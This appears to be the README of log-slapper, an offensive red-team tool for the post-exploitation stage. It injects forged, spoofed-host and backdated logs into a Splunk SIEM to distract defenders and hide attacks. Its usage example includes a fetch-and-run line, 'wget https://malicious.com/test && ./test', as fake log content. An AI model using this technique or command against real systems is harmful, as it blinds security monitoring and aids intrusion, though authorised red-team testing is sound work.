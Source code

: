 # log-slapper 👹
<p align="center">
<img width="600" align="center" alt="image"  src="https://github.com/oz9un/log-slapper/assets/57866851/fd320c4b-5c90-45d3-a477-2fc44e1cf66d">
</p>

<br>

**Every company undoubtedly trusts its SIEM, right? Think twice, we can inject fake logs, distract BT's and hide our attacks.**


## description
log-slapper is the offensive security tool for red-teamers and specifically designed for post-exploit part of the campaign.
<br>


log-slapper can:
- mimic attacks on behalf of any other computer on the network
- run in interactive mode: Target Shell Playzone
- send logs from future and past: HEC based Time Traveller's attack 
- perform built-in attacks like login success/fail spam, new process creations

## usage
<img width="500" alt="image" src="https://github.com/oz9un/log-slapper/assets/57866851/a564c9c5-9bcf-4ff8-b4ee-941c359e45bd">
<br>
<br>

go into interactive mode:
```
./log-slapper interactive
```
send log as "payment-server-01" got hacked and malicious code is running:

```
./log-slapper nix_command --hostname "payment-server-01" --ip "23.32.45.123" -t "e270e632-861f-45cc-8f00-f91eb895f5e6" --exectime "10/10/2021 08:45" --command "wget https://malicious.com/test && ./test"
```

Now check your Splunk 🙂
